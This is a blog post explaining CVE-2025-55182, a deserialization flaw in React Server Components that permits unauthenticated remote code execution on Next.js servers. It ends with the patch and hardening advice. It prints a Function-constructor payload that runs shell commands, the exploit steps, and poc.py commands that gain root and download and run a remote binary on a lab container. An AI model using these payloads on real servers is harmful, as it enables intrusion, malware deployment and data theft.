


React Server Components introduced a powerful paradigm for building web applications—server-side logic that seamlessly integrates with client-side React. Unfortunately, a critical vulnerability in how React serializes and deserializes data between client and server has exposed applications to unauthenticated remote code execution.

In this blog post, I'll break down CVE-2025-55182 and demonstrate how an attacker can achieve arbitrary command execution on a vulnerable Next.js server.



## What's Affected

Any application using React Server Functions (commonly called Server Actions in Next.js) prior to the patch is vulnerable. This includes the majority of modern Next.js applications that use the `"use server"` directive.

## Understanding the Vulnerability

React uses the "Flight Protocol" to serialize data passed between client and server. When you call a Server Action, your arguments are encoded into chunks that reference each other:

```plaintext
"0": '["$1"]'
"1": '{"name":"$2:value"}'  
"2": '{"value":"hello"}'
```

The vulnerability lies in how React resolves these references. Prior to the patch, React didn't verify whether a requested key actually existed on an object—it would happily traverse the prototype chain. This means an attacker could request `__proto__` and access the object's prototype, eventually reaching the `Function` constructor.

Once you have access to `Function`, you can construct and execute arbitrary JavaScript:

```javascript
Function("return process.mainModule.require('child_process').execSync('whoami')")()
```

## Why This Is Particularly Dangerous

The exploit triggers during deserialization, *before* the server validates which action was requested. An attacker doesn't need to know any valid action IDs—a request with a dummy `Next-Action: foo` header is sufficient to trigger the vulnerability.

This is pre-authentication, pre-validation RCE.

## Demonstration Environment

To demonstrate this vulnerability safely and reproducibly, I'm running a containerized environment:

* **Podman** for container isolation
    
* **Nix** for reproducible builds and dependencies
    
* A vulnerable Next.js application with Server Actions enabled
    

**A note on the demo setup:** The container runs as root, which is explicitly *not* a production best practice. I'm using it here to clearly show the impact—when we achieve RCE, the `id` command returns `uid=0(root)`. In a real attack scenario, running containers as non-root users provides defense-in-depth, limiting what an attacker can do post-exploitation.

## The Attack

The exploit crafts a malicious payload that:

1. Overwrites the `.then()` method of a chunk with `Chunk.prototype.then`
    
2. Sets up a fake chunk with `status: "resolved_model"` to trigger initialization
    
3. Abuses the blob deserialization handler (`$B` prefix) as a call gadget
    
4. Points `._formData.get` to the `Function` constructor
    
5. Injects arbitrary code via the `._prefix` field
    

Here's the core of the proof-of-concept:



Running this against the vulnerable server:

```bash
python3 poc.py http://localhost:3000 id | grep '^1:E' | sed 's/^1:E//' | jq -r '.digest'
```

Output:

```plaintext
uid=0(root) gid=0(root) groups=0(root)
```

We have root. Now let me demonstrate what an attacker could do with this access.

### Downloading and Executing Arbitrary Binaries

To drive the point home, I'll download Zig onto the compromised server, extract it, and run it—all through the vulnerability. In this demo I'm using a legitimate compiler, but this could just as easily be a cryptominer, ransomware, or any malicious binary.

**Step 1: Download the tarball**

```bash
python3 poc.py http://localhost:3000 "curl -L -o /tmp/zig.tar.xz https://ziglang.org/builds/zig-x86_64-linux-0.16.0-dev.1484+d0ba6642b.tar.xz"
```

**Step 2: Extract it**

```bash
python3 poc.py http://localhost:3000 "tar -xf /tmp/zig.tar.xz -C /tmp"
```

**Step 3: Execute**

```bash
python3 poc.py http://localhost:3000 "/tmp/zig-x86_64-linux-0.16.0-dev.1484+d0ba6642b/zig version"
```

Output:

```plaintext
0.16.0-dev.1484+d0ba6642b
```

We've just downloaded and executed an arbitrary binary on the server through a series of simple HTTP requests.

### The Real-World Implications

In this demo, I downloaded the zig 0.16.0-dev binary. An actual attacker would use the same technique to deploy:

* **Reverse TCP shells** — interactive access that persists beyond the HTTP request
    
* **Cryptominers** — monetize compromised infrastructure immediately
    
* **Malicious packages** — supply chain payloads, backdoored tools
    
* **Data exfiltration tools** — dump databases, steal credentials, pivot to internal services
    

The attack surface is limited only by what the server can reach. Cloud metadata endpoints, internal APIs, databases—all accessible once you have code execution.

This is why running as root amplifies the damage. A non-root container user would limit some of these attacks—but the RCE itself would still be catastrophic.

## Remediation

**Update immediately.** The fix adds a `hasOwnProperty` check before resolving references, preventing prototype chain traversal:

```javascript
if (hasOwnProperty.call(moduleExports, metadata[NAME])) {
    return moduleExports[metadata[NAME]];
}
return undefined;
```

Check the [React security advisory](https://react.dev/blog/2025/12/03/critical-security-vulnerability-in-react-server-components) for patched versions and further info.

## Takeaways

* **Serialization is a minefield.** Any time you're parsing untrusted input into objects, prototype pollution is a risk.
    
* **Defense in depth matters.** Run containers as non-root. Use read-only filesystems. Limit network egress. None of these prevent this CVE, but they limit blast radius.
    
* **Patch aggressively.** This vulnerability is trivial to exploit and the PoC is public.
    

---

*Thanks to the security researchers who discovered and responsibly disclosed this vulnerability, and to msanft for the detailed technical writeup and PoC.*
